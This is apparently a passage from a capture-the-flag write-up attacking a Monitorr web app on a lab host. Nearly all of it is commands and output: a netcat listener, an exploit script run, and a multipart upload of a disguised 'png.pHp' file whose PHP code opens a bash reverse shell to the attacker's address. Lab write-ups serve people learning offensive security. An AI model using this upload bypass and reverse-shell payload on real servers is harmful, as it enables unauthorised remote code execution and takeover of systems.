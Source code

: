 ```bash
```

`nc -nlvp 443`

```bash
listening on [any] 443 ...
```

`python monitorrexploit.py https://monitorr.robyns-petshop.thm 10.2.37.37 443`

```bash
-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name="fileToUpload"; filename="2325.png.pHp"
Content-Type: image/gif

GIF89a213213123<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.2.37.37/443 0>&1'");

-----------------------------31046105003900160576454225745--

<div id='uploadreturn'>File 2325.png.pHp is an image: <br><div id='uploadok'>File 2325.png.pHp has been uploaded to: ../data/usrimg/2325.png.php</div></div>
A shell script should be uploaded. Now we try to execute it
https://monitorr.robyns-petshop.thm/assets/data/usrimg/2325.png.pHp
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at monitorr.robyns-petshop.thm Port 443</address>
</body></html>

```

![image.png](image%202.png)
